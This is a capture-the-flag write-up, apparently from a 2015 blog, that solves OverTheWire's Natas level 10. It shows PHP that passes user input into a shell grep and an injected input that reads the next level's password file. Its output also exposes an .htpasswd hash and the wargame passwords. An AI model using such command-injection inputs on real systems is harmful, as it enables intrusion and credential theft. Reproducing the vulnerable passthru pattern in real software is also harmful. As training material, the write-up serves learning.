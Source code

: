```yaml
---
layout: post
title:  "Natas Level 10"
date:   2015-09-28 19:45
categories: natas wargame web overthewire
author: Leander
---
```

This is a solution guide to the Natas10 Level at [overthewire](http://natas10.natas.labs.overthewire.org). This write-up was created on 28 September 2015.

First connect to the website
<ul><li>http://natas10.natas.labs.overthewire.org</li>
<li>Enter the following as the username natas10 and password nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu</li></ul>

Let's begin first by clicking on view source and examining the code for this level.
{% highlight php linenos %}
<?php
$key = "";
 
if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }}?>
{% endhighlight %}

This challenge is very similar to the last challenge except that it filters and checks for the following characters <code>[;|&]</code>. After the check it still uses the same php function called *passthru()*. If you want to learn more about *passthru()* check out this [link](http://php.net/manual/en/function.passthru.php). So now we have to find a way to send *passthru()* a command which will show us the flag inside /etc/natas_webpass/natas11.

This time we are going to send grep an actual valid command to search for our key. You can find more about grep [here](http://www.tutorialspoint.com/unix_commands/grep.htm). Of note we know that we don't have to worry about case due to the *-i* switch, and we also know that grep expects to have a pattern to search for followed by a named input file. So let's try searching for all text with .* in the /etc/natas_webpass/natas11 directory. Now let's place the crafted input into the search field:

<code> .* /etc/natas_webpass/natas11 #</code>

Which returns our password on the last line:
<figure class="highlight"><pre><code class="language-text" data-lang="text">.htaccess:AuthType Basic
.htaccess: AuthName "Authentication required"
.htaccess: AuthUserFile /var/www/natas/natas10//.htpasswd
.htaccess: require valid-user
.htpasswd:natas10:$1$sDWfJg4Y$ewf9jvw0ChWUA3KARHisg.
/etc/natas_webpass/natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK</code></pre></figure>

The password is natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
